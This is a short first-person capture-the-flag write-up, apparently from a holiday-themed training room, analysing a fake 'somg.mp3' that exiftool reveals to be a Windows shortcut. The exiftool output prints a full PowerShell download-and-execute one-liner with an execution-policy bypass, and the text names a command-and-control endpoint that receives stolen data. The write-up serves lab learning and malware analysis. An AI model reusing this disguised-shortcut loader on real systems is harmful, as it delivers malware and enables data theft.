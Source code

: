 # Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?


I go to `10.10.10.41` and see a youtube-link to .mp3 converter website, I paste the link (of one of my fav songs https://www.youtube.com/watch?v=LYU-8IFcDPw) and download the `.zip` file.


after unzipping the file, I see two file. `song.mp3` and `somg.mp3` after running `exiftool` on both I see that the `song.mp3` file's author is some guy named `Tyler Ramsbey` and for `somg.mp3` I see:-


```
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 12:44:14+05:30
Access Date                     : 2018:09:15 12:44:14+05:30
Modify Date                     : 2018:09:15 12:44:14+05:30
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    :
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```


which reveals that `somg.mp3` is actually a powershell script. I visit the link `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` which sends "stolen info" to a a C2 server `http://papash3ll.thm/data`


Since, we already got the profile of the author of this script from the `raw.githubusercontent.com/` link I visit `https://github.com/MM-WarevilleTHM/` and I see a repo `IS` with 1 commit.


Seems like the Mayor of Wareville is upto some sus stuff.
